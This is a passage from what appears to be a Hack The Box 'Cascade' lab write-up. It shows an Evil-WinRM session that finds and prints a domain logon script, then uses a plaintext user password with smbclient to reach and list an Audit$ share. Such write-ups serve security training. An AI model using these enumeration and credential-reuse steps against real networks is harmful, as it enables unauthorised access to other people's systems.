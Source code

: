 ```PowerShell
Workstations allowed         All
Logon script                 MapAuditDrive.vbs
User profile
Home directory
Last logon                   1/28/2020 11:26:39 PM

Logon hours allowed          All

Local Group Memberships      *Audit Share          *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Let's check out that logon script, `MapAuditDrive.vbs`

```PowerShell
*Evil-WinRM* PS C:\> Get-ChildItem -Path "C:\" -Recurse -Filter "MapAuditDrive.vbs"

	Directory: C:\Windows\SYSVOL\sysvol\cascade.local\scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/15/2020   9:50 PM            258 MapAuditDrive.vbs

*Evil-WinRM* PS C:\Windows\SYSVOL\sysvol\cascade.local\scripts> cat MapAuditDrive.vbs
'MapAuditDrive.vbs
Option Explicit
Dim oNetwork, strDriveLetter, strRemotePath
strDriveLetter = "F:"
strRemotePath = "\\CASC-DC1\Audit$"
Set oNetwork = CreateObject("WScript.Network")
oNetwork.MapNetworkDrive strDriveLetter, strRemotePath
WScript.Quit
```

### SMB (...again)

```sh
┌──(pl4stic㉿kali)-[~/htb/cascade]
└─$ smbclient \\\\10.129.145.225\\Audit$ -U s.smith%'sT333ve2'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020

                6553343 blocks of size 4096. 1619338 blocks available
```
